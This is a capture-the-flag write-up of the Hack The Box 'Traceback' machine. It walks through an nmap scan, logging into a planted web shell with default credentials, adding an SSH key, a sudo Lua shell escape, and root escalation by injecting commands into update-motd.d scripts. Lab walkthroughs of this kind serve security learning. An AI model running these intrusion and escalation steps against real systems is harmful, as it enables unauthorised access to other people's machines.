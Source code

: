 # Traceback
## User
First I did a Nmap scan.
```
$ nmap 10.10.10.181 -A -sV
Nmap scan report for 10.10.10.181
Host is up (0.039s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
As there are no other interesting Ports I looked at the web server.

![](img/website.png)

It seems like the website was already hacked by a user named Xh4H and a backdoor left on the server, so we just have to find it.
When I looked at the source of the site I found another hint in a comment:

`<!--Some of the best web shells that you might need ;)-->`

Because of this I decided to look up Xh4H's [Github](https://github.com/Xh4H) and found a [repository with web shells](https://github.com/Xh4H/Web-Shells).
It has the same text in it's [README.md](https://github.com/Xh4H/Web-Shells/blob/master/README.md) so it's definitely the right repo.
Then I tried to find all of the shells on the website and finally found `http://10.10.10.181/smevk.php` but it needs login credentials.

![](img/shell_login.png)

So I looked at the [source code of the shell](https://github.com/Xh4H/Web-Shells/blob/master/smevk.php), found the standard login credentials and tried them out.
```
$UserName = "admin";
$auth_pass = "admin";
```

![](img/shell.png)

With this I now have a lot of access on the server. As I am now logged in as user `webadmin` I looked at the home directory of the user and found the `/home/webadmin/auth_keys` file so I just added my SSH Key to it and connected via SSH.
```
$ ssh webadmin@10.10.10.181
$ whoami
webadmin
```
There is also a note from the `sysadmin` in the home directory of the `webadmin`:
```
$ cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```
So I decided to check my sudo permissions:
```
$ sudo -l
User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```
This means we can use [luvit](https://luvit.io/) to run lua scripts as the user `sysadmin`. A very simple one liner is enough to escalate:
```
os.execute("/bin/sh")
```
After running this script I am now user `sysadmin` and we can read `/home/sysadmin/user.txt` for the user flag.
```
$ sudo -u sysadmin /home/sysadmin/luvit privesc.lua
$ whoami
sysadmin

$ python3 -c 'import pty; pty.spawn("/bin/bash")' // Upgrading Shell
```
## Root
After uploading [pspy](https://github.com/DominicBreuker/pspy) to the server and looking at the processes I found that the server runs scripts in `/etc/update-motd.d/` every time a user logs in:
```
CMD: UID=106  PID=1965   | sshd: [net]          
CMD: UID=0    PID=1967   | run-parts --lsbsysinit /etc/update-motd.d 
CMD: UID=0    PID=1966   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
CMD: UID=0    PID=1976   | /usr/bin/python3 -Es /usr/bin/lsb_release -cs 
CMD: UID=0    PID=1975   | /bin/sh /etc/update-motd.d/80-esm 
```
Luckily we can write to these, but there is also a cronjob that replaces all the files in the folder with files from a backup folder every 30 seconds:
```
CMD: UID=0    PID=2289   | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/
```
But I can still use this for my attack. I just need to change one of the scripts and login within 30 seconds. So I just added `cat /root/root.txt` (or any other code you want the root to execute) to `/etc/update-motd.d/80-esm` and when I logged in again I got the root flag.

